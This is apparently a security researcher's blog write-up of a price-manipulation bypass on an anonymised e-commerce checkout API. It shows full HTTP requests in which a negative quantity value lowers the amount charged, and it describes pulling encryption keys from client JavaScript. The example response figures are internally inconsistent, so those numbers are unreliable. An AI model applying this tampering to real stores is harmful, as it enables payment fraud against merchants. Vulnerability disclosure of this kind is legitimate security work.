 ```yaml
---
title: "Exploiting Business Logic Error: Price Manipulation"
layout: post
date: 2023-04-12 12:00
categories: blog
---
```


This blog discusses the exploitation of a business logic error that allows users to manipulate prices and pay less for the products and services offered by the target company.

## Target Background

The target of this analysis is a web application functioning as an e-commerce platform. It facilitates online purchases of various products and services by users.

## Overview

The Target company previously disclosed a vulnerability report regarding a specific issue: "hackers were able to manipulate the payment amount during the checkout/order process." To understand the application's fix for this vulnerability, I attempted the same steps to examine the implemented validation mechanisms.

## Reconnaissance

- Hosted on AWS
- Utilizes React for web application development
- Mobile application version is also available
- All application requests and responses are encrypted

## Finding the Encryption Key

Upon inspecting the application traffic, I discovered that the JSON payloads in requests and responses were encrypted. To manipulate or interact with these encrypted payloads, I needed to locate the encryption and decryption keys.

During my analysis of the JavaScript files, I identified the encryption key, the encryption algorithm, the mode, and the initialization vector. Armed with this information, I used online encryption tools to encrypt the payloads.

## Playing with fire🔥

I attempted to modify the price parameter in the request, but the application's validation mechanism prevented any successful manipulation. The amount to be paid was validated against a salted hash that was associated with the purchase order.

## Actual Request and Response

### Request

```http
POST /api/v1/checkout HTTP/2
Host: www.target.com
Cookie: blah...blah...blah...
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/111.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://www.target.com/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: iframe
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Te: trailers

{
  "saltedhash": "hashcode",
  "product_id": "121212",
  "price": "10",
  "quantity": "10",
  "address": "ABC city, ABC.",
  "zipcode": "123456"
}
```

### Response

```http
HTTP/1.1 200 OK 
Access-Control-Allow-Origin: * 
Content-Type: application/json; charset=utf-8 
Set-Cookie: blah...blah...blah...; Path=/; HttpOnly 
X-Frame-Options: SAMEORIGIN 
X-Content-Type-Options: nosniff 
X-XSS-Protection: 1; mode=block 
Referrer-Policy: strict-origin-when-cross-origin 
Connection: close 
Strict-Transport-Security: max-age=31536000; includeSubDomains

{
  "saltedhash": "hashcode",
  "product_id": "121212",
  "price": "10",
  "quantity": "10",
  "amount_to_be_paid": "100",
  "address": "ABC city, ABC.",
  "zipcode": "123456"
}
```

The above request represents a checkout request sent to the server to facilitate payment for a purchase order. To address the previously exploited price manipulation vulnerability, the developer implemented an additional parameter named `saltedhash`.

## Bypass

During my exploration of the application flow and requests, I decided to conduct a deeper investigation of the `checkout` request. I noticed a parameter called `quantity`, which was responsible for creating orders based on the desired quantity specified by customers. I attempted to modify this value to a negative number.

## Manipulated Request

```http
POST /api/v1/checkout HTTP/2
Host: www.target.com
Cookie: blah...blah...blah...
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/111.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://www.target.com/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: iframe
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Te: trailers

{
  "saltedhash": "hashcode",
  "product_id": "121212",
  "price": "10",
  "quantity": "-5",
  "address": "ABC city, ABC.",
  "zipcode": "123456"
}
```

Upon sending the request with a negative value for the `quantity` parameter, the server responded by adjusting the amount to be paid accordingly. The lack of validation on the `quantity` parameter allowed negative values to be accepted. As a result, the backend calculation for the amount to be paid was based on the per-quantity price and the number of quantities in the cart.

### Response

```http
HTTP/1.1 200 OK 
Access-Control-Allow-Origin: * 
Content-Type: application/json; charset=utf-8 
Set-Cookie: blah...blah...blah...; Path=/; HttpOnly 
X-Frame-Options: SAMEORIGIN 
X-Content-Type-Options: nosniff 
X-XSS-Protection: 1; mode=block 
Referrer-Policy: strict-origin-when-cross-origin 
Connection: close 
Strict-Transport-Security: max-age=31536000; includeSubDomains

{
  "saltedhash": "hashcode",
  "product_id": "121212",
  "price": "10",
  "quantity": "-5",
  "amount_to_be_paid": "6",
  "address": "ABC city, ABC.",
  "zipcode": "123456"
}
```

By changing the `quantity` value to a negative number, it was possible to pay a reduced amount for the orders placed.

Thanks for reading!

For more updates and insights, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).